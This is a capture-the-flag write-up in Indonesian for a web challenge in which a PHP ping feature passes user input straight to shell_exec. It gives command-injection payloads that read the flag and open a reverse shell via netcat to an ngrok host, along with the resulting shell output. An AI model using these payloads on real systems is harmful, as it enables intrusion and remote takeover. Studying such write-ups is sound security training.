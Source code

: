 Description :

During Pandora’s training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, 
causing it to become uncontrollable. With the situation escalating rapidly, 
Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needs to take it down.

Enumeration:

Dalam tantangan ini, kita dapat mengunduh file yang disediakan:
Tapi sebelum kita melihat kode sumbernya, mari bermain dengan aplikasinya.

Status:


![image](https://user-images.githubusercontent.com/113104087/230796394-a5810d3b-b6aa-427c-baa5-15d1bd247e52.png)



Ini akan menunjukkan status "Integer".

Kebutuhan :


![image](https://user-images.githubusercontent.com/113104087/230796408-79619d12-829d-478d-ba34-32fd9d5655e8.png)


Tunjukkan apa yang dibutuhkan "Integer".

Perintah:


![image](https://user-images.githubusercontent.com/113104087/230796422-595ebea0-ba78-4ce9-bfe3-e07c94d3da5e.png)


Oh! Sepertinya kita bisa menjalankan beberapa perintah?
Ayo ketik `/help` :


![image](https://user-images.githubusercontent.com/113104087/230796434-ef8f46e7-bc1d-4086-98ff-f19b52eb12a8.png)



![image](https://user-images.githubusercontent.com/113104087/230796438-2a9c8085-9abf-4da7-b924-16383c75da41.png)



Dingin! Kita dapat `/clear` command prompt, `/ping` [device IP] untuk mengecek sistem pengintaian, `/storage` untuk mengecek penyimpanan.

Hmm… Saya bisa mencium beberapa injeksi perintah OS !
Mari kita lihat kode sumbernya!


![image](https://user-images.githubusercontent.com/113104087/230796469-15050c6f-3abc-4fd1-aa41-d62393c023a6.png)


Struktur aplikasi web menggunakan model yang disebut MVC, atau Model-View-Controller .

Di dalam `controllers/ReconController.php`, ada `ping()`metode:
```js
<?php
class ReconController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function ping($router)
    {
        $jsonBody = json_decode(file_get_contents('php://input'), true);

        if (empty($jsonBody) || !array_key_exists('ip', $jsonBody))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        $pingResult = new ReconModel($jsonBody['ip']);

        return $router->jsonify(['output' => $pingResult->getOutput()]);
    }
}
```
Metode ini `ping()` akan mendapatkan badan JSON yang didekodekan, dan mem-parsing `ip` kunci ke `ReconModel()`.

Apa itu `ReconModel()`?

Di dalamnya `models/ReconModel.php` sangat menarik bagi kami:
```js
<?php
#[AllowDynamicProperties]

class ReconModel
{   
    public function __construct($ip)
    {
        $this->ip = $ip;
    }

    public function getOutput()
    {
        # Do I need to sanitize user input before passing it to shell_exec?
        return shell_exec('ping -c 3 '.$this->ip);
    }
}
```
Seperti yang Anda lihat, `ReconModel` metode publik kelas `getOutput()` menggunakan fungsi bernama `shell_exec()`, yang menjalankan perintah OS !!
Jika ada input yang tidak divalidasi dan disanitasi masuk ke sana, kita dapat mencapai Eksekusi Kode Jarak Jauh (RCE)!!
Ingat, sedang $ipdiurai dari badan JSON dalam ping()metode!!
Karena itu, kita bisa mendapatkan RCE melalui `/ping` perintah!
```
EKSPLOITASI
```
Sekarang, mari kita coba ping 127.0.0.1, atau localhost:


![image](https://user-images.githubusercontent.com/113104087/230796579-eede959b-a938-451c-a2f0-db90d34327b3.png)


Riwayat HTTP Burp Suite:


![image](https://user-images.githubusercontent.com/113104087/230796589-35578118-4f38-4c84-ae03-9902199c73dd.png)


Saat kita mengetik perintah itu, itu akan mengirimkan permintaan POST ke `/api/ping`, dengan badan JSON.
Jika tidak ada kesalahan, itu memberi kami data JSON, yang merupakan keluaran perintah.
Berbekal informasi di atas, kami dapat mengirimkan permintaan itu ke Repeater Burp Suite, dan menyuntikkan beberapa perintah!!
Setelah beberapa pengujian `||` bekerja!


![image](https://user-images.githubusercontent.com/113104087/230796630-6efbc144-c3a3-43f2-813b-2eb6e1b3d0f0.png)


Bagus! Sekarang kami dapat mengonfirmasi bahwa ada kerentanan RCE melalui shell_exec!
Ayo baca bendera!
```js
{
    "ip":" || cat ../flag.txt"
}
```


![image](https://user-images.githubusercontent.com/113104087/230796660-602e4716-0efc-4668-af53-30cb00f6e85f.png)



Atau, bisa mendapatkan shell :D

```
ngrok tcp port
nc -lnvp port
```
payload :
```
{
    "ip":" || nc 0.tcp.ap.ngrok.io 17969 -e '/bin/sh'"
}
```
nc -lnvp 4444
```
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 56612
whoami;hostname;id;ip a
www
ng-gunhead-axuru-69c8bcb87c-nsl6z
uid=1000(www) gid=1000(www) groups=1000(www)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
26: eth0@if27: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether fa:1e:e5:23:24:12 brd ff:ff:ff:ff:ff:ff
    inet 10.244.17.207/32 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::f81e:e5ff:fe23:2412/64 scope link 
       valid_lft forever preferred_lft forever
cat ../flag.txt
```

flag : `HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}`
